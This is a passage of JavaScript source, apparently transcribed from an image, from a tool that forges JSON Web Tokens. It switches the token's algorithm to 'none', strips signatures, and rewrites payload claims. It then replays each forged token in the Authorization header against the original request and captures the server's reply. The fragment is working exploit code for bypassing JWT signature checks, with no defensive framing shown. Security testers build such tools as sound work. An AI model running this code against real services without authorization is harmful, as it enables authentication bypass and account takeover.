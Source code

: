 ```javascript

      // Change algorithm to "none"
      header.alg = 'none';

      // Recreate token without signature
      const newHeader = btoa(JSON.stringify(header)).replace(/=/g, '');
      const newPayload = btoa(JSON.stringify(payload)).replace(/=/g, '');

      return `${newHeader}.${newPayload}.`;
    } catch (e) {
      return null;
    }
  }

  removeSignature(originalToken) {
    const parts = originalToken.split('.');
    return `${parts[0]}.${parts[1]}.`;
  }

  modifyPayload(originalToken, changes) {
    try {
      const parts = originalToken.split('.');
      const payload = JSON.parse(atob(parts[1]));

      // Apply modifications
      Object.assign(payload, changes);

      // Recreate token with modified payload but original signature
      // (signature will be invalid)
      const newPayload = btoa(JSON.stringify(payload)).replace(/=/g, '');

      return `${parts[0]}.${newPayload}.${parts[2]}`;
    } catch (e) {
      return null;
    }
  }

  async testToken(token, originalRequest) {
    try {
      // Clone the original request but with modified token
      const headers = {...originalRequest.headers};
      headers['Authorization'] = `Bearer ${token}`;

      const response = await fetch(originalRequest.url, {
        method: originalRequest.method,
        headers: headers,
        redirect: 'manual'
      });

      return {
        success: true,
        statusCode: response.status,
        statusText: response.statusText,
        headers: Object.fromEntries(response.headers),
        body: await response.text()
      };
    } catch (error) {
      return {
        success: false,
        error: error.message
      };
    }
  }
```